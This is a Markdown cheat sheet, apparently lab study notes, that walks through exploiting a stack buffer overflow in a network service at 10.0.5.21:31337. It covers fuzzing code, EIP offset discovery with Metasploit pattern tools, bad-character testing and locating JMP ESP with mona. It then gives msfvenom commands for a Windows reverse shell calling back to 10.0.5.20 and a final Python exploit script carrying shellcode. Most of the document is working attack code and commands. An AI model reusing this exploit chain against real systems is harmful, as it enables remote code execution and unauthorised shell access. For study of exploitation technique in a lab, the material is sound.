 # Buffer Overflow

## Fuzz
Interact with target service, increasing buffer size, and see if/when it crashes
```python
import socket

for r in range(1,10):
    size = 25 * r
    buffer = "A" * size + "\n"
    print "Sending a buffer of size " + str(size)
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(("10.0.5.21",31337))
    s.send(buffer)
    print "Returned: " + s.recv(1400)
    s.close()
```
------------------------------------------------------------------------------------------------

## Determine offsets and shellcode space:
* Determine EIP offset
  * `msf-pattern_create -l 200 > bof_pattern`
  * `cat bof_pattern | nc 10.0.5.21 31337` or modify fuzzing program to send patterned buffer
  * In debugger: find the part of the string that overwrote EIP `msf-pattern_offset -l 200 -q 39654138`
  * Prove this offset is correct (EIP should be `0x42424242`) `python -c 'print "A"*146 + "B"*4 + "C"*50' | nc 10.0.5.21 31337`
  * Determine space for shellcode: Increase the `C` string length and determine where it gets cut off `python -c 'print "A"*146 + "B"*4 + "C"*600+"DDDD"' | nc 10.0.5.21 31337`

------------------------------------------------------------------------------------------------

## Determine bad characters
Iteratively send all bytes to the target program in a buffer, adding bad chars to the `badchars` string as they are found to be problematic (e.g. not appearing in target buffer/truncating buffer)
```python
buffer = 200 * "A"
badchars = "\x00\n\r "
for c in range(0,256):
    if not chr(c) in badchars:        
        buffer += chr(c)
    else:
        print "[*] excluded char: " + str(c)

buffer += "C"*150
buffer += "\n"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("10.0.5.21",31337))
s.send(buffer)
s.close()
```
------------------------------------------------------------------------------------------------

## Locate a `JMP ESP` or `CALL ESP`
* Search for the bytes:
  * `$ msf-nasm_shell`
  * `nasm > jmp esp`
  * `00000000  FFE4              jmp esp`
  * `nasm > call esp`
  * `00000000  FFD4              call esp`
* OR search with mona.py in Immunity Debugger
  * `!mona jmp -r ESP`
  * `!mona find -s \xff\xd4` (output to text file in Immunity program dir)
* Prove it correct (`0xCC` bytes trigger an INT that will pause debugger)
  * `EIP = "\xc3\x14\x04\x08"`
  * `buffer = "A"*146 + EIP + "\xCC"*600 + "DDDD" + "\n"`

Generate shellcode
* `msfvenom --list payloads`
* `msfvenom -p windows/exec --list-options`
* `msfvenom -p windows/exec CMD=C:\\windows\\system32\\calc.exe -f python -b '\x00\x08\x0a\x0d\x20'`
* `msfvenom -p windows/shell_reverse_tcp LPORT=6000 LHOST=10.0.5.20 EXITFUNC=thread -f python -b '\x00\x08\x0a\x0d\x20'`

------------------------------------------------------------------------------------------------
## Final PoC code
```python
import socket

# msfvenom -p windows/shell_reverse_tcp LPORT=6000 LHOST=10.0.5.20 EXITFUNC=thread -f python -b '\x00\x08\x0a\x0d\x20'
buf =  ""
buf += "\xd9\xc8\xd9\x74\x24\xf4\x58\xba\xd0\x4d\x62\xe7\x33"
buf += "\xc9\xb1\x52\x31\x50\x17\x83\xc0\x04\x03\x80\x5e\x80"
# ...snip...
buf += "\xd6\x19\x0a\xca\xbb\x99\xe1\x09\xc2\x19\x03\xf2\x31"
buf += "\x01\x66\xf7\x7e\x85\x9b\x85\xef\x60\x9b\x3a\x0f\xa1"
shellcode = buf

EIP = "\xc3\x14\x04\x08" # !mona jmp -r ESP found: 0x080414c3 and 0x080416bf
NOP1 = "\x90"*12
NOP2 = "\x90" * (604-len(shellcode)-len(NOP1))
buffer = "A"*146 + EIP + NOP1 + shellcode + NOP2 + "\n"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("10.0.5.21",31337))
s.send(buffer)
s.close()

```